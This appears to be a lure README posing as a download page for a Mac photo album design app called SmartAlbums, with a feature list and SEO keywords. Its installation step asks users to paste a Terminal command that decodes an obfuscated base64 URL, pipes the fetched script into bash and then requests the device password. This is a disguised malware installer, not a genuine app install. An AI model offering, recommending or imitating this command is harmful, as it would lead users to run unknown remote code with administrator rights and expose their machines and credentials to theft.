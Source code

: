 # 📚 SmartAlbums for Mac — Fast, Beautiful Photo Album Design

📌 About SmartAlbums  
SmartAlbums is a professional photo album design app for macOS, made for photographers who want to build stunning layouts without wasting hours on manual work.  
Simply drag and drop your images, and SmartAlbums automatically creates clean, modern page layouts based on your preferred style, size, and print lab. It supports full resolution exports, custom spreads, image cropping, and font adjustments — all in a distraction-free workspace.  
It integrates with popular print labs, supports PSD/PNG/TIFF formats, and saves all your data locally to protect your client work and creative freedom. Whether you shoot weddings, portraits, or events, SmartAlbums helps you design albums that impress, fast.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
   /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
``` 
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTF52dAbaAVk8YU5hLARqOWfdND2jfZOHBEXw&s)  
- ![](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcT0FNOO4SPXsk2eK2uyscDJ97IopVUkemdlJA&s)  

## 🎯 Key Features  
⚡️ Smart Layouts: Auto-design spreads with intelligent image positioning.  
🔒 Full Local Control: All albums and media stay securely on your Mac.  
⚙️ Print Lab Support: Compatible with major album printers worldwide.  
🚀 Drag‑and‑Drop Workflow: Design without menus or manual adjustments.  
🎨 Custom Fonts & Cropping: Fine-tune spreads with design freedom.  
📊 High-Res Export: Output print-ready files in JPG, TIFF, or layered PSD.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 500 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`smartalbums mac` · `photo album design macos` · `drag and drop album app mac` · `mac wedding album layout` · `mac print lab integration` · `professional album software mac` · `album design automation mac` · `mac psd album export` · `mac photo layout tool` · `event album builder mac` · `mac tiff photo album` · `offline album creator mac` · `smart albums design mac` · `mac custom spreads` · `mac portrait book designer`
